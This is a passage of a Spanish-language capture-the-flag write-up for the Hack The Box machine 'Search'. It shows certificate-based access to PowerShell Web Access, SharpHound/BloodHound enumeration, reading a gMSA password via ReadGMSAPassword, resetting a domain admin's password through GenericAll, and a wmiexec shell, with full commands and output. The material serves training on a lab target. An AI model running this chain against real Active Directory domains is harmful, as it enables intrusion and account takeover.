1g 0:00:04:28 DONE (2024-12-04 19:44) 0.003729g/s 20456p/s 20456c/s 20456C/s missprin1956..missnono
Use the "--show" option to display all of the cracked passwords reliably
```

## Windows PowerShell Web Access
Ahora bien, ¿Qué podemos hacer con este certificado? En este punto tampoco podemos hacer mucho con este certificado.

Con `wfuzz` podemos enumerar el servicio web por HTTPS y encontramos un recurso `/staff` donde nos devuelve un 403.
```console
wfuzz --hc=404 -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://search.htb/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://search.htb/FUZZ
Total requests: 220561

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000017:   301        1 L      10 W       149 Ch      "images"
000000001:   200        1029 L   2969 W     44979 Ch    "# directory-list-2.3-medium.txt"
000000014:   200        1029 L   2969 W     44979 Ch    "https://search.htb/"
000000003:   200        1029 L   2969 W     44979 Ch    "# Copyright 2007 James Fisher"
000000007:   200        1029 L   2969 W     44979 Ch    "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"
000000013:   200        1029 L   2969 W     44979 Ch    "#"
000000012:   200        1029 L   2969 W     44979 Ch    "# on at least 2 different hosts"
000000011:   200        1029 L   2969 W     44979 Ch    "# Priority ordered case-sensitive list, where entries were found"
000000010:   200        1029 L   2969 W     44979 Ch    "#"
000000009:   200        1029 L   2969 W     44979 Ch    "# Suite 300, San Francisco, California, 94105, USA."
000000006:   200        1029 L   2969 W     44979 Ch    "# Attribution-Share Alike 3.0 License. To view a copy of this"
000000008:   200        1029 L   2969 W     44979 Ch    "# or send a letter to Creative Commons, 171 Second Street,"
000000005:   200        1029 L   2969 W     44979 Ch    "# This work is licensed under the Creative Commons"
000000002:   200        1029 L   2969 W     44979 Ch    "#"
000000004:   200        1029 L   2969 W     44979 Ch    "#"
000000204:   301        1 L      10 W       149 Ch      "Images"
000000246:   403        29 L     92 W       1233 Ch     "staff"
000000551:   301        1 L      10 W       146 Ch      "css"
```

Entonces quizás podemos importar nuestro certificado a firefox y nos dejará acceder al recurso `/staff`, recordemos el archivo `.asp` donde se comprobaba que teníamos un certificado válido de administrador.

Vamos a importar el certificado en firefox.


Le damos a `Import`


Introducimos la contraseña del certificado que era `misspissy`


Y ya lo tenemos importado.


Ahora al acceder al recurso `/staff` se nos permite utilizar el certificado importado para autenticarnos.


Vemos un panel de `Microsoft PowerShell Web Access` , nos autenticamos como `Sierra.Frye`


Y ganamos acceso como `Sierra.Frye`


# BloodHound enumeration w/SharpHound
Vamos a enumerar la máquina con `SharpHound` en búsqueda de algún privilegio especial que me permita hacer un movimiento lateral o escalar privilegios.

Vamos a hospedar el ejecutable de `SharpHound.exe` por SMB para copiarlo cómodamente a la máquina víctima.
```console
cp /usr/share/SharpHound.exe .
sudo impacket-smbserver -smb2support smbFolder .
[sudo] password for kali:
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Ahora en la máquina víctima nos copiamos el ejecutable.
```console
S C:\Users\Sierra.Frye\Documents> 

copy \\10.10.14.197\smbFolder\SharpHound.exe SharpHound.exe

PS C:\Users\Sierra.Frye\Documents> 

dir

 

 

    Directory: C:\Users\Sierra.Frye\Documents

 

 

Mode                LastWriteTime         Length Name                                                                  

----                -------------         ------ ----                                                                  

d-----        7/31/2020   9:00 AM                WindowsPowerShell                                                     

-a----        12/4/2024   7:04 PM        1052160 SharpHound.exe                                                        
```


Ahora ejecutamos el `SharpHound.exe`

```console
PS C:\Users\Sierra.Frye\Documents> 

.\SharpHound.exe -c All 

2024-12-04T19:07:54.6368390+00:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodH

ound

2024-12-04T19:07:54.8087232+00:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, L

oggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote

2024-12-04T19:07:54.8399643+00:00|INFORMATION|Initializing SharpHound at 19:07 on 04/12/2024

2024-12-04T19:07:54.9962129+00:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for search.htb : Rese

arch.search.htb

2024-12-04T19:08:19.1055907+00:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, 

Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote

2024-12-04T19:08:19.3087160+00:00|INFORMATION|Beginning LDAP search for search.htb

2024-12-04T19:08:19.4024668+00:00|INFORMATION|Producer has finished, closing LDAP channel

2024-12-04T19:08:19.4024668+00:00|INFORMATION|LDAP channel closed, waiting for consumers

2024-12-04T19:08:49.6681739+00:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
```

 Y vemos que nos ha generado un archivo `.zip`
```console
PS C:\Users\Sierra.Frye\Documents> 

dir

 

 

    Directory: C:\Users\Sierra.Frye\Documents

 

 

Mode                LastWriteTime         Length Name                                                                  

----                -------------         ------ ----                                                                  

d-----        7/31/2020   9:00 AM                WindowsPowerShell                                                     

-a----        12/4/2024   7:09 PM          26686 20241204190925_BloodHound.zip                                         
```

Nos lo vamos a copiar a nuestra máquina.
```console
PS C:\Users\Sierra.Frye\Documents> 

copy 20241204190925_BloodHound.zip \\10.10.14.197\smbFolder\20241204190925_BloodHound.zip
```

Podemos comprobar el hash MD5 de este zip para comprobar que lo hemos transmitido bien.
```console
PS C:\Users\Sierra.Frye\Documents> 

Get-FileHash 20241204190925_BloodHound.zip -Algorithm MD5

 

Algorithm       Hash                                                                   Path                            

---------       ----                                                                   ----                            

MD5             86E7D6FA8ECB3E285C096274EF9207C8                                       C:\Users\Sierra.Frye\Document...

 

 
```

Vemos que coincide.
```console
md5sum 20241204190925_BloodHound.zip
86e7d6fa8ecb3e285c096274ef9207c8  20241204190925_BloodHound.zip
```

Ahora es hora de abrir el `bloodhound`, primero tenemos que iniciar `neo4j` que es la base de datos que utiliza.
```console
sudo neo4j start
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:200158). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

Ahora podemos iniciar `bloodhound`, iniciar sesión, le damos a `Upload Data` y seleccionamos el `.zip` generado.


Vamos a seleccionar los usuarios cuyas credenciales tenemos como `Owned`, estos usuarios son:
- hope.sharp
- web_svc
- Edgar.Jacobs
- Sierra.Frye


# Privilege Escalation
## Abusing `ReadGMSAPassword` rights
Analizando la situación, vemos que `sierra.frye` pertenece al grupo `BIRMINGHAM-ITSEC`, que a su vez pertenece al grupo `ITSEC`, es decir, `sierra.frye` indirectamente pertenece al grupo `ITSEC` que a su vez tiene el permiso `ReadGMSAPassword` sobre la cuenta de servicio administrada del grupo `BIR-ADFS-GMSA$`


Esta cuenta tiene el permiso `GenericAll` sobre el usuario `tristan.davies` que a su vez pertenece al grupo `Domain Administrators` por lo cual es administrador de dominio.

Ahora que tenemos el vector de ataque claro, vamos a explotarlo.

Podemos buscar como conseguir en texto claro las contraseñas GMSA y encontramos [este de aquí](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)

Entonces, podemos conseguir el valor así de fácil.
```console
PS C:\Users\Sierra.Frye\Documents> 

$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'

PS C:\Users\Sierra.Frye\Documents> 

$mp = $gmsa.'msDS-ManagedPassword'

PS C:\Users\Sierra.Frye\Documents> 

 ConvertFrom-ADManagedPasswordBlob $mp

 

 

Version                   : 1

CurrentPassword           : ꪌ絸禔හॐ๠뒟娯㔃ᴨ蝓㣹瑹䢓疒웠ᇷꀠ믱츎孻勒壉馮ၸ뛋귊餮꤯ꏗ춰䃳ꘑ畓릝樗껇쁵藫䲈酜⏬궩Œ痧蘸朘嶑侪糼亵韬⓼ↂᡳ춲⼦싸ᖥ裹沑᳡扚羺歖㗻෪ꂓ㚬⮗㞗ꆱ긿쾏㢿쭗캵십ㇾେ͍롤

                            ᒛ�䬁ማ譿녓鏶᪺骲雰騆惿閴滭䶙竜迉竾ﵸ䲗蔍瞬䦕垞뉧⩱茾蒚⟒澽座걍盡篇

SecureCurrentPassword     : System.Security.SecureString

PreviousPassword          : 

SecurePreviousPassword    : 

QueryPasswordInterval     : 1949.04:28:47.6131564

UnchangedPasswordInterval : 1949.04:23:47.6131564

 

 
```

Todas esas letras chinas es la contraseña del GMSA en texto claro, el problema es que son 256 bytes de datos pseudo-aleatorios interpretados como 128 bytes de caracteres en UTF-16, pero si calculamos el hash NT de esta contraseña, el hash almacenado en el dominio será el mismo.

## Abusing `GenericAll` rights over `tristan.davies`
Ahora que tenemos la contraseña de la cuenta que nos importa, podemos cambiar la contraseña de `tristan.davies`

Vamos a utilizar `Invoke-Command` para ejecutar un comando como `BIR-ADFS-GSMA$` y así cambiar la contraseña de `tristan.davies`

Para ello asignamos los valores que nos importan a las variables `$pass`  y `$securepass` para crear un objeto de tipo `PSCredential`.

```console
PS C:\Users\Sierra.Frye\Documents> 

$pass = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword

PS C:\Users\Sierra.Frye\Documents> 

$securepass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword

PS C:\Users\Sierra.Frye\Documents> 

$cred = New-Object System.Management.Automation.PSCredential BIR-ADFS-GMSA, $securepass
```

Ahora podemos ejecutar un comando con `Invoke-Command` pasando los parámetros `-ComputerName` que en este caso sería `127.0.0.1` ya que nos queremos referir al DC, la credencial en el parámetro `-Credential` y el bloque del comando a ejecutar en el parámetro `ScriptBlock`

Leyendo [este artículo](https://blog.netwrix.com/2023/03/24/set-adaccountpassword-powershell-cmdlet/) sobre como resetear contraseñas mediante PowerShell, nos podemos guiar para ejecutar el comando correcto.

Este es el "comando base"
```
Set-ADAccountPassword abbeywarren -Reset -NewPassword (ConvertTo-SecureString -AsPlainText “NewP@ssw0rd123” -Force -Verbose) –PassThru
```

Así que juntando todo en el `Invoke-Command` nos queda el siguiente one-liner.
```console
Invoke-Command -ComputerName 127.0.0.1 -Credential $cred -ScriptBlock {Set-ADAccountPassword tristan.davies -Reset -New

Password (ConvertTo-SecureString -AsPlainText “Pointed123@” -Force -Verbose) –PassThru}
```

Si lo ejecutamos vemos que parece ser que se ha cambiado la contraseña del usuario.
```console
PS C:\Users\Sierra.Frye\Documents> 

Invoke-Command -ComputerName 127.0.0.1 -Credential $cred -ScriptBlock {Set-ADAccountPassword tristan.davies -Reset -New

Password (ConvertTo-SecureString -AsPlainText “Pointed123@” -Force -Verbose) –PassThru}

 

 

PSComputerName    : 127.0.0.1

RunspaceId        : a0775a1f-3b22-4d51-bb65-a1619e96fcb3

DistinguishedName : CN=Tristan Davies,CN=Users,DC=search,DC=htb

Enabled           : True

Name              : Tristan Davies

ObjectClass       : user

ObjectGUID        : 1bd46e04-e057-43ca-85db-6c39d61f0b07

SamAccountName    : Tristan.Davies

SID               : S-1-5-21-271492789-1610487937-1871574529-1298

UserPrincipalName : Tristan.Davies@search.htb
```

Si lo comprobamos con `netexec` vemos que la contraseña es válida y  nos reporta `Pwn3d!`, esto significa que este usuario es administrador del dominio y que podemos utilizar `psexec` o `wmiexec` en este caso para poder conseguir una consola interactiva como el usuario `tristan.davies`
```console
nxc smb 10.129.121.52 -u tristan.davies -p 'Pointed123@'
SMB         10.129.121.52   445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.129.121.52   445    RESEARCH         [+] search.htb\tristan.davies:Pointed123@ (Pwn3d!)
```

Por alguna razón utilizando `psexec` no conseguimos la consola.
```console
psexec.py -target-ip 10.129.121.52 tristan.davies:'Pointed123@'@10.129.121.52
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.121.52.....
[*] Found writable share ADMIN$
[*] Uploading file aFkZDmXz.exe
[*] Opening SVCManager on 10.129.121.52.....
[*] Creating service uSnM on 10.129.121.52.....
[*] Starting service uSnM.....
```

Podemos probar con `wmiexec` y vemos que ganamos acceso como `tristan.davies`, podemos acceder al directorio `C:\Users\Administrator`
```console
wmiexec.py search.htb/tristan.davies:'Pointed123@'@10.129.121.52 -target-ip 10.129.121.52
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
search\tristan.davies

C:\>cd C:\users\administrator
C:\users\administrator>dir
 Volume in drive C has no label.
 Volume Serial Number is B8F8-6F48

 Directory of C:\users\administrator

20/12/2021  08:34    <DIR>          .
20/12/2021  08:34    <DIR>          ..
22/11/2021  20:21    <DIR>          3D Objects
22/11/2021  20:21    <DIR>          Contacts
22/11/2021  20:21    <DIR>          Desktop
22/11/2021  20:21    <DIR>          Documents
22/11/2021  20:21    <DIR>          Downloads
22/11/2021  20:21    <DIR>          Favorites
22/11/2021  20:21    <DIR>          Links
22/11/2021  20:21    <DIR>          Music
22/11/2021  20:21    <DIR>          Pictures
22/11/2021  20:21    <DIR>          Saved Games
22/11/2021  20:21    <DIR>          Searches
22/11/2021  20:21    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)   3,138,822,144 bytes free
```

Podemos leer la flag de `root`
```console
C:\users\administrator\desktop>type root.txt
1d110a0f1fb2b...
```

Happy Hacking! 🚀